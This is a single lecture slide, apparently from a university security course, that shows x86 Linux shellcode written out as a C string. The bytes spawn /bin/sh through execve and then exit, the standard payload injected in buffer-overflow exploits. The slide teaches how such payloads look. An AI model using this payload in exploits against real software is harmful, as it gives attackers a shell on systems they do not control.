

# Shellcode as a String

char shellcode[] =  "\x31\xc0\x50\x68\x2f\x2f\x73"  "\x68\x68\x2f\x62\x69\x6e\x89"  "\xe3\x89\xc1\x89\xc2\xb0\x0b"  "\xcd\x80\x31\xc0\x40\xcd\x80";

APU - CBE : 22 February 2020